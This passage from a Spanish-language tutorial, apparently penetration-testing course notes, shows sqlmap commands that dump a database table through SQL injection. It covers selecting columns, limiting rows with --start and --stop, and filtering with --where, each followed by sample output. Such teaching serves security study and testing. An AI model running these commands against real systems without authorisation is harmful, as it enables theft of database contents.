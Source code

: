 Si nos encontramos con una tabla demasiado grande podemos ir por filas.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

Para reducir las filas en función de su número ordinal dentro de la tabla, podemos especificar las filas con las opciones --start y --stop (por ejemplo, desde la segunda hasta la tercera entrada).

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

### Enumeración condicional

Si es necesario recuperar determinadas filas basándose en una condición WHERE conocida (por ejemplo, nombre LIKE “f%”), podemos utilizar la opción --where.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```
